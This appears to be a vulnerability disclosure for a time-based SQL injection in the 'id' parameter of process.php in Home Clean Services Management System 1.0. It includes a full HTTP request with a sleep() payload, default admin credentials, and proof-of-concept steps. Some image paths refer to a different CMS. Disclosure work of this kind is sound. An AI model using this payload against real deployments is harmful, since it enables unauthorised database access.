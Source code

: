 # Home Clean Services Management System process.php id SQL injection

**Exploit Title: Home Clean Services Management System process.php id SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/**

**Vendor Homepage: https://www.sourcecodester.com/php/15293/home-clean-service-free-source-code.html**

**Software Link: https://www.sourcecodester.com/download-code?nid=15293&title=Home+Clean+Service+System+in+PHP+Free+Source+Code**

**Version: Home Clean Services Management System 1.0**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection Home Clean Services Management System does not filter the content correctly at the "process.php" id module, resulting in the generation of SQL injection.

    Payload used:

```
GET /HCS/public_html/admin/process.php?id=21'+and+sleep(3)--+&name=ALvin%20Gumatay HTTP/1.1
Host: aaa.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://aaa.com/HCS/public_html/admin/manage_house.php
Connection: keep-alive
Cookie: PHPSESSID=a61gtlsps39bcudp17o7o3b0k7
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```



## Proof of Concept

1. Login the CMS. Admin Default Access: Email: admin Password: admin

2. Open Page http://aaa.com/HCS/public_html/admin/process.php?id=21&name=ALvin%20Gumatay
![image-20250106061315590](dingfanzu-CMS%20checkOrder.php%20shopId%20SQL-inject.assets/image-20250106061315590.png)

Change the parameter 21 of id to 21'+and+sleep(3)--+, and find that the sleep function is executed.

![image-20250106061825321](dingfanzu-CMS%20checkOrder.php%20shopId%20SQL-inject.assets/image-20250106061825321.png)

![image-20250106061928651](dingfanzu-CMS%20checkOrder.php%20shopId%20SQL-inject.assets/image-20250106061928651.png)

